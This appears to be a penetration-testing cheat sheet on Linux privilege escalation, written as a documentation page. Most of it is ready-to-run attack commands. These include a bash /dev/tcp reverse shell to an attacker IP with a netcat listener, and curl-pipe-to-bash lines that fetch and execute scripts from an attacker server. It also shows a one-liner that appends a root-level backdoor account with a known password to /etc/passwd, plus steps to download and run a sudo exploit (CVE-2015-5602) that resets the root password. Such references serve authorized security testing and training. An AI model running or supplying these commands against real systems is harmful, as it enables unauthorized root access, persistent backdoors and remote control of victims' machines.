 ```yaml
---
sidebar_position: 4
---
```


# Linux Privilege Escalation

This page provides a comprehensive guide for Linux privilege escalation and exploitation techniques, including practical commands, tools, and tips. Use these methods to enumerate, exploit, and escalate privileges on Linux systems during penetration testing.

## Shell Handling Techniques

### Reverse Shell

- **Attacker's machine (waiting for connection):**

```bash
nc -nvlp {port}
```

- **Target's machine (connect to attacker):**

```bash
bash -i >& /dev/tcp/{ip}/{port} 0>&1
# Example:
bash -i >& /dev/tcp/192.168.119.1/443 0>&1
```

### Fixing PATH Issues

If you get a shell with a limited PATH, restore it with:

```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### Upgrading to a PTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Or try:

```bash
{ which python; } && { python -c 'import pty ; pty.spawn("/bin/bash")'; :; } || { echo "No python"; { which python3; } && { python3 -c 'import pty ; pty.spawn("/bin/bash")'; :; } || { echo "No python3"; } }
```

## Basic System Enumeration

```bash
whoami
uname -a
```

## Automated Enumeration Tools

### linpeas.sh

- [linPEAS GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- Automated privilege escalation auditing script.

```bash
wget http://192.168.119.1:8080/f/linpeas.sh -O linpeas.sh
curl http://192.168.119.1:8080/f/linpeas.sh -o linpeas.sh
bash ./linpeas.sh
# Or run directly:
curl http://192.168.119.1:8080/f/linpeas.sh | bash
```

### lse.sh

- [LSE GitHub](https://github.com/diego-treitos/linux-smart-enumeration)
- Linux Smart Enumeration script.

```bash
wget http://192.168.119.1:8080/f/lse.sh -O lse.sh
curl http://192.168.119.1:8080/f/lse.sh -o lse.sh
bash ./lse.sh
# Or run directly:
curl http://192.168.119.1:8080/f/lse.sh | bash
```

### LinEnum.sh

- [LinEnum GitHub](https://github.com/rebootuser/LinEnum)
- Another popular Linux enumeration script.

```bash
wget http://192.168.119.1:8080/f/LinEnum.sh -O LinEnum.sh
curl http://192.168.119.1:8080/f/LinEnum.sh -o LinEnum.sh
bash ./LinEnum.sh
# Or run directly:
curl http://192.168.119.1:8080/f/LinEnum.sh | bash
```

### pspy

- [pspy GitHub](https://github.com/DominicBreuker/pspy)
- Process monitoring tool for Linux, useful for finding scheduled tasks and privilege escalation vectors.

Check your architecture:

```bash
uname -m
# x86_64 (64bit), i686 (32bit)
```

Download and run:

```bash
wget http://192.168.119.1:8080/f/pspy32 -O pspy32
curl http://192.168.119.1:8080/f/pspy32 -o pspy32
chmod +x pspy32
./pspy32

wget http://192.168.119.1:8080/f/pspy64 -O pspy64
curl http://192.168.119.1:8080/f/pspy64 -o pspy64
chmod +x pspy64
./pspy64
```

## SUID Exploitation

- [HackTricks SUID Guide](https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid)

### /etc/passwd Trick

- [Editing /etc/passwd for Privilege Escalation](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/)

```bash
echo -n "hack:\$1\$hack\$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash" >> /etc/passwd
su hack
# Password: pass123
# (No output, but you can run 'whoami' to check)
```

## Kernel Exploits

### Linux Exploit Suggester 2

- Tool to suggest kernel exploits based on version.

```bash
./linux-exploit-suggester-2.pl -k 4.4.10
```

### Compiling 32bit Exploits

```bash
sudo apt install -y gcc-multilib
gcc exploit.c -Wl,--hash-style=both -m32 -o exploit.elf
```

### Dirty COW (Linux 2.6.22 < 3.9)

- [Exploit-DB 40616](https://www.exploit-db.com/exploits/40616)
- [Exploit-DB 40839](https://www.exploit-db.com/exploits/40839)
- If attacking x86, change shellcode accordingly.

## sudo `<=` 1.8.14 Exploit (CVE-2015-5602)

```bash
wget https://raw.githubusercontent.com/t0kx/privesc-CVE-2015-5602/master/exploit.sh
```

Example usage:

```bash
sudo -l
# Check for NOPASSWD sudoedit permissions
./exploit.sh
# If successful, root password will be changed
su
# Password: (see exploit output)
id
```

## Further Reading & References

- [Udemy: Linux Privilege Escalation](https://www.udemy.com/course/linux-privilege-escalation)
- [Japanese: Privilege Escalation Memo](https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Linux)
- [Japanese: Privilege Escalation Exploit Linux](https://kakyouim.hatenablog.com/entry/2020/04/17/182049#Privilege-Escalation-exploit-linux)
